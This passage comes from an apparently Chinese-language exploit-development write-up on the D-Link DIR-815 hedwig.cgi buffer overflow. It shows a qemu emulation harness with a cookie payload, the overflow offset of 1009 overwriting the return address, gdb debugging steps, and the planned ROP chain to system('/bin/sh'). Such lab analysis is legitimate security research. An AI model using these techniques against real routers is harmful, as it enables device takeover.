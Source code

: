 ```
#!/bin/bash
#sudo ./test.sh  "uid=1234"  `python -c "print 'uid=' + open('content','r').read()"`

INPUT="$1"
COOKIE="$2"
PORT="23957"
LEN=$(echo -n "$INPUT" | wc -c)
cp $(which qemu-mipsel-static) ./qemu

echo $INPUT | chroot . ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$COOKIE -E REQUEST_URI="/hedwig.cgi" -E REMOTE_ADDR="127.0.0.1"  -g $PORT /htdocs/web/hedwig.cgi
rm -f ./qemu
```

执行命令

```
sudo ./test.sh  "uid=1234"  `python -c "print 'uid=' + open('content','r').read()"`
```

调试之后发现确实能够触发第二个sprintf()。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/sprintf3.png)

并且覆盖了ra=68423668。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/ra2.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/%E5%81%8F%E7%A7%BB2.png)

计算得到偏移为1009。

**<a class="reference-link" name="4.2.2-%E9%80%89%E6%8B%A9%E6%94%BB%E5%87%BB%E8%B7%AF%E5%BE%84%E6%9E%84%E9%80%A0ROP%E9%93%BE"></a>4.2.2-选择攻击路径构造ROP链**

**<a class="reference-link" name="4.2.2.1-%E9%80%9A%E8%BF%87system%E5%87%BD%E6%95%B0getshell"></a>4.2.2.1-通过system函数getshell**

主要目的是调用system(‘/bin/sh’)来getshell，system函数在libc.so中找，参数’/bin/sh’首先放入栈中，然后利用gadget将栈上的’/bin/sh’传入a0寄存器，再调用system函数即可。

1.定位system函数地址

首先需要先找到调用了哪个动态链接库libc.so，然后在libc.so中定位system函数。

通过以下过程：

```
gdb-multiarch htdocs/cgibin #一定要加载文件htdocs/cgibin不然vmmap得不到结果
set architecture mips
target remote :23957
b *0x409A54 #hedwigcgi_main()函数返回jr ra处
c
vmmap
```
